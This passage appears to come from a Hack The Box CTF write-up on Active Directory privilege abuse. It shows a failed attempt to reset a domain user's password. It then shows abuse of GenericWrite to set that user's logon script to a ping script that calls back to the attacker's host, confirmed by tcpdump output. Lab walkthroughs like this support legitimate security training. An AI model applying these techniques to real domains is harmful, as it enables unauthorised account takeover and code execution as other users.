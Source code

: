     Warning: [Invoke-RevertToSelf] Reverting token impersonation and closing LogonUser() token handle



I can try to crack that with `hashcat`, but as the password is not in a
standard wordlist like `rockyou.txt`, it won't crack without some extra
effort beyond what is needed for HTB machines.

### Password Change Fail

Some
[references](https://burmat.gitbook.io/security/hacking/domain-exploitation#reset-domain-user-password)
I found suggested that `GenericWrite` could work to change the user's
password, but this didn't work here:



    *Evil-WinRM* PS C:\programdata> $newpass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force
    *Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity maria -AccountPassword $newpass
    Warning: [Set-DomainUserPassword] Error setting password for user 'maria' : Exception calling "SetPassword" with "1" argument(s): "Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))"



### Logon Script

[HackTricks](https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user)
suggests I can use `GenericWrite` on a user to update their logon
scripts. This script would run the next time the user logs in. That's
not typical on HTB/CTF machines, but it's possibly something automated
in the background.

I'll write a script that will ping my host, remembering from the
firewall enumeration earlier that ICMP is one of the few things allowed
outbound, and set the script:



    *Evil-WinRM* PS C:\programdata> echo "ping 10.10.14.6" > ping.ps1
    *Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\ping.ps1"}



Instantly there are packets at `tcpdump`:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp                   
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode                 
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes                       
    ec11:20:01.252961 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11053, length 40
    11:20:01.253007 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11053, length 40  
    11:20:02.260576 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11056, length 40
    11:20:02.260615 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11056, length 40  
    11:20:03.276421 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11059, length 40
    11:20:03.276457 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11059, length 40  
    11:20:04.279746 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11062, length 40
    11:20:04.279779 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11062, length 40  
    11:20:05.592129 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11067, length 40
    11:20:05.592188 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11067, length 40  
    11:20:06.604067 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11070, length 40
    11:20:06.604103 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11070, length 40  
    11:20:07.620145 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11073, length 40
    ...[snip]..
